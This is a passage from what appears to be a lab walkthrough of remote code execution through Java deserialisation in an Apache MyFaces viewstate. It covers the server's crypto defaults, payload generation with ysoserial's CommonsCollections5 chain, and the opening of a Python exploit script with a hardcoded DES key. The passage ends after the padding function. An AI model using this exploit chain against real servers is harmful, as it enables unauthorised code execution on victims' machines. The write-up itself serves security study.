 To summarise what we know about how the server is expecting to decrypt our viewstate:
```
This Class exposes a handful of methods related to encryption, compression and serialization of the view state.

ISO-8859-1 is the character set used.
Base64 is used for all encoding and decoding.
DES is the default encryption algorithm
ECB is the default mode
PKCS5Padding is the default padding
HmacSHA1 is the default MAC algorithm
```
---
## Creating a payload
Before we bother writing our "exploit" we need to be able to reliably create a serialised java object (our payload) that will execute our code. Turns out I'm both lazy and able to take a hint... So when I stumbled upon [ysoserial](https://github.com/frohoff/ysoserial): A proof-of-concept tool for generating payloads that exploit unsafe Java Object deserialisation" I saved myself a little time. 

Through a **painful** process of elimination I worked out that the `CommonsCollections5` payload allowed me to reliably execute code on the victim machine.

After downloading the .jar file from JitPack, creating payloads with ysoserial is simple
`java -jar ysoserial.jar <payload> '<command>'`

---
## Writing the exploit - Bringing it all together
Here's my python script which creates a payload with ysoserial, pads the payload (PKCS5#), encrypts the padded payload (DES, ECB mode), HMAC signs it, then base64 encodes it. the `org.apache.myfaces.SECRET` and `org.apache.myfaces.MAC_SECRET` values are used for encryption and signing. Finally, my script performs a HTTP POST to the vulnerable web server with our new malicious viewstate  value.

```
#!/usr/bin/python

import base64
from Crypto.Cipher import DES
from hashlib import sha1
import hmac
import urllib
import os
import sys
import requests

key = base64.b64decode('SnNGOTg3Ni0=')

def generate_payload(command):
    os.system("java -jar ysoserial/ysoserial.jar CommonsCollections5 \"" + command + "\" > payload.dat")
    with open("payload.dat", "r") as f:
        payload = f.read()
    f.close()
    os.system("rm payload.dat")
    return payload

def pad(data): # PKCS5# implementation
    #Check how many bytes need to be added to make data size a multiple of 8 
    if len(data) % 8 != 0:
        num_bytes = 8 - (len(data) % 8)
        #Append the padding value <padding value> times to the datai
        for i in range(num_bytes):
               data += chr(num_bytes)
    return data
```